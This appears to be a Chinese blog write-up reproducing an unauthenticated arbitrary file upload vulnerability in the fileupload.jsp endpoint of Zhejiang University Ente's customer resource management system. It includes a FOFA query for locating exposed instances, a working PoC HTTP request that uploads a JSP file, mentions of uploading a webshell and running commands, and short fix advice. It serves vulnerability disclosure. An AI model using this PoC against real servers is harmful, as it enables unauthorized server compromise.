 
# 浙大恩特客户资源管理系统任意文件上传漏洞复现

### 0x01 产品简介

     浙大恩特[客户资源管理](https://so.csdn.net/so/search?q=%E5%AE%A2%E6%88%B7%E8%B5%84%E6%BA%90%E7%AE%A1%E7%90%86&spm=1001.2101.3001.7020)系统是一款针对企业客户资源管理的软件产品。该系统旨在帮助企业高效地管理和利用客户资源，提升销售和市场营销的效果。

### 0x02 漏洞概述

  浙大恩特客户资源管理系统中 fileupload.jsp 接口处存在[文件上传漏洞](https://so.csdn.net/so/search?q=%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E&spm=1001.2101.3001.7020)，未经身份认证的攻击者可以上传任意后门文件，最终可导致服务器失陷。

### 0x03 复现环境

FOFA：app="浙大恩特客户资源管理系统"

![](assets/1699929273-bcd76752e4891c6c2630e6ff06382bb5.png)

### 0x04 漏洞复现 

PoC

```cobol
POST /entsoft_en/entereditor/jsp/fileupload.jsp?filename=1.jsp HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Content-Type: application/x-www-form-urlencoded
Connection: close
Accept-Encoding: gzip, deflate

123
```

![](assets/1699929273-b71ce3998d997a1ea55c71b60aa4ebda.png)

回显了上传路径 

验证

![](assets/1699929273-32c25ae7394720814b1b7bf8656da49c.png)

上传马子

![](assets/1699929273-b2d0a0820efeb4b33e85ace962673bc6.png)

命令执行 

### ![](assets/1699929273-588167ef90e58a3abfadae7a8a3d60e9.png) 0x05 修复建议 

关闭互联网暴露面或设置接口访问权限

 升级至安全版本
